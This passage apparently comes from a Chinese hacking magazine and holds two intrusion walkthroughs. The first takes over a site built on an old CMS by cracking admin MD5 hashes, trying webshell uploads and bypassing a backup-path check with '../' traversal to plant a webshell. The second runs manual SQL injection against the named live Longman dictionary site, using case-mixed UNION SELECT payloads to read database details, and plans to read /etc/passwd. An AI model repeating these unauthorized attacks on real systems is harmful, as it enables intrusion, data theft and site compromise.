

使用 wwwscan 扫描一下网站目录，收集一下这个程序的相关信息，看能不能找出这个 CMS 的版权。前台的版权信息等都被涂改掉了，没能看出啥端倪。经过一番猜解后，找到了用来数据库管理的 admin_data.asp 页面，打开后查看源文件，发现原来使用的是“E路文章系统”，如图5。这是很老的一个 CMS 了，将其作为关键词放到百度里查询了一下，轻松地就找到了源码，如图6。下载回来后打开数据库，将存放管理员信息的表名 Elook_Admin 添加到啊D中，用户名和密码就被猜解出来了，结果如图7所示。

把猜解出的 MD5 密码拿到 cmd5 网站上进行查询，结果成功地查询出了明文密码，接下来就是登录后台了。后台的默认地址是 /admin_index.asp，登录进去后发现不是最高权限，数据库备份等功能都被禁止了，如图8。我在后台转了转，发现能够利用的就只有文件上传了。



来试试上传漏洞，打开 WsockExpert，选中上传页面，然后再点击“上传”，如图9；打开明小子的综合上传功能，选中常用的木马，把刚才抓取到的上传地址与 cookie 填入进去，再点击后边的“上传”，如图10。结果我将各种上传漏洞全部都尝试了一遍，可都提示文件格式不正确等错误，看来程序对文件的后缀过滤得很全面，不存在上传漏洞。

没办法，我只好又去“商朝”版块转了转，这也是使用的同一套 CMS 系统。使用刚才得到的用户名和密码登录后台成功，提示是最高管理员权限，尝试备份了一下数据库，成功了。将木马后缀修改为 jpg，上传图片木马，将得到的相对路径填入数据库那一栏，本以为轻车熟路地就可以拿到 webshell 了，却提示了不能修改数据库路径，如图11。



图9



图10

程序对数据库目录作了判断，来看看代码是如何写的，备份数据库的文件为 Admin_Data.asp，打开后，主要代码如下：

```asp
Dbpath=request.form("Dbpath")
bkfolder=request.form("bkfolder")
bkdbname=request.form("bkdbname")
If Lcase(Left(DbPath,5))<>"data/" Then
    ErrCodes = ErrCodes & "<li>为了安全，只允许备份Data目录中的数据！</li><br>"
    FoundErr=True
ElseIf Lcase(Left(bkfolder,10))<>"databackup" Then
    ErrCodes = ErrCodes & "<li>为了安全，数据库只允许备份到Databackup目录中</li><br>"
    FoundErr=True
End If
```

程序先使用 request.form 获取备份路径 DbPath 的值，再判断这个值的左边 5 个字符是否为“data/”，如果不是就中断备份。这个使用目录跳转就可以轻松突破了，在 Windows 系统中“../”代表上级目录，我马上将路径修改为“Data/../photo/ttt.jpg”，如图12，这下 webshell 终于备份成功了。



图11



图12

以上就是我此次安全检测的全过程，啊D自带的浏览器确实很方便，像这样登录后再进行注入的情况还是非常常见的，也包括使用万能密码等方式进入后台后，利用后台入口获取管理员的密码，再进行社工等一系列操作。现在越来越多的网站为了减少开发成本或者其他方面的原因，都采用了现成的 CMS 系统来建站，但却没有在原有基础上进行版权的修改和代码的加固，这也就方便了我们对脚本的分析与网站的检测。大家要勤思考，多体会，这样才会有进步！

（文章中涉及到的啊D注入工具、明小子注入工具、wwwscan、WsockExpert，已经收录在了光盘中）

## 手工注入 敲开朗文的安全大门

这天，我正在国外网站闲逛，偶然发现了朗文在线词典的网站 http://www.ldoceonline.com/。这可是在 Google 里以“longman”为关键词进行搜索排名第一的网站，PR 值都达到了 7，绝对算是一个排得上号的大网站了，如图1。我是从小就看着朗文的东西长大的，小学看朗文的口语教程，初中以后又用朗文当代词典，就连电子词典都少不了它的身影。这么有名的公司，其在线词典网站的安全性又如何呢？我就有了检测一下朗文在线词典安全性的想法。



图1

### 一、初探失败

朗文在线词典（以下简称朗文）的首页如图2所示。我仔细地查看了各个页面，没有发现类似“php?id=”或者“asp?id=”的页面，都是一些“html?”的页面，搜索框那里也不存在搜索型注入，也不存在任意目录浏览漏洞，也不存在 cookie 注入漏洞……网站功能越简单，也就代表其安全性相对越高。

既然咬定了朗文就不要放弃，我们再四处找找看。

我试着在 URL 后面加了单引号提交后，结果如图5所示，返回了空白页面。把地址丢到了 Pangolin 进行检测，但检测结果却让人非常失望，什么也没检测出来，如图6。再放到 HDSI 和 NBSI 检测也都一样。





### 二、另辟蹊径

我又仔细浏览了网站的每一个角落，不放过一丝蛛丝马迹，终于还是找到了有用的东西，如图3。它位于首页下方，意思是有个在线词典插件，安装后可以双击页面上的英文单词查询意思。



我试着随便双击了一个英文单词，结果真的出现了一个新窗口，如图4。仔细看 URL，发现是：`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364`。我试着在 URL 后面加单引号，发现这里竟然不能修改 URL，只能复制到浏览器中再访问。





### 三、手工注入

既然使用工具不行，那我们就试试手工注入。坦白地说，我对工具的信赖度并不高，所以在不费力气的情况下，我都尽量使用手工注入，这对技术提高有好处，也免去了对工具的依赖性。

来 `order` 一下字段，“order by 1...”时返回正常，但到 `order by 8` 时不正常，因此字段数为 7。再来 `union select` 构造 URL 地址……

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 union all select 1,2,3,4,5,6,7--`，结果返回空，在后面加上“and 1=2”也是一样，这让我非常郁闷，难道注入点就这么丢了？不行，先去睡个觉，起来再接着琢磨。

### 四、一觉醒来

睡醒后打开刚才的页面继续研究，究竟是什么原因呢？order 出字段了却不能 union select？莫非是过滤了关键字？如果是关键字过滤那我就只能期望着闭文没有进行大小写转换了，把死马当成活马医吧，试试转大写的 union 怎么样。尝试着构造如下的 URL：

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 unioN all seLecT 1,2,3,4,5,6,7--`

如我所愿，显示出了 1、3、4、6 这四个字段，如图7，这让我兴奋无比，看来注入有门路了。

接着来看一下 MySQL 的相关数据，构造 URL 如下：

`http://www.ldoceonline.com/popup/popupmode.php?searchid=12364 unioN all seLecT version(),2,user(),database(),5,6,7--`

结果显示出了 MySQL 的版本是 5.0.67，用户是 ldoce_web@localhost，数据库是 ldoce_data，如图8。不知道这个用户权限够不够，来试试 load_file 吧。先来看看这是基于什么系统的网站，Windows 系统就 load boot.ini，Linux 系统就 load /etc/passwd。



